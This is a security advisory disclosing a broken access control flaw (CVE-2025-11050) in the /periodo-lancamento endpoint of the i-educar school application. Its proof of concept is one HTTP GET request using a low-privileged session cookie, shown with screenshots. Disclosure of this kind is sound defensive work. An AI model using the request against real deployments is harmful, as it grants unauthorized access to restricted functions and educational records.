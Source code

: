 # Broken Access Control  in `/periodo-lancamento` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/periodo-lancamento` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /periodo-lancamento`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for permited users .

---

## PoC

1. Authenticate as a non-privileged user.

<img width="1603" height="673" alt="Pasted image 20250914131157" src="https://github.com/user-attachments/assets/3f4e8bcd-e2e8-4468-a57f-d1e631ff934b" />

<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/2caed485-5950-43d1-a8bb-f601322a7c1a" />

    
2. Send the following request::

```
GET /periodo-lancamento HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: i_educar_session=[low_privileged cookie]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function. And, this user, should not do that.

<img width="967" height="657" alt="Pasted image 20250914131656" src="https://github.com/user-attachments/assets/d424e8da-cc81-475f-bd68-b8e52f5ac85d" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

[CVE-2025-11050](https://www.cve.org/CVERecord?id=CVE-2025-11050)

[VulnDB-326087](https://vuldb.com/?id.326087)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)

